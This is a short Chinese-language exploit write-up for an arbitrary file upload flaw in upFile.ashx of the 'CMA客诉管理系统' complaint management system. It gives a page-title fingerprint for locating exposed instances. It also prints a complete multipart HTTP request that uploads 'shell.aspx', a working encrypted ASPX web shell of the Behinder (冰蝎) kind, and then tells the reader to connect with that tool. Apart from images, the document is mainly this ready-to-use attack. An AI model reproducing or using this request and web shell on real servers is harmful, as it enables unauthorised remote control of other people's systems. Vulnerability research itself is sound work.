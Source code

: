 # CMA客诉管理系统 upFile.ashx 任意文件上传漏洞

## 漏洞描述

CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器

## 漏洞影响

<a-checkbox checked>CMA客诉管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="CMA客诉管理系统手机端"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630077859995-d563e899-7674-4370-b05e-94b72a5bfe7c.png)

发送请求包上传文件

```python
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630077920980-30952928-5af7-4b07-8aa4-dda8c323f5b4.png)

发送后回显路径，使用冰蝎连接

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630077956266-b7a3a7b2-690a-423e-86d3-1d747405aa34.png)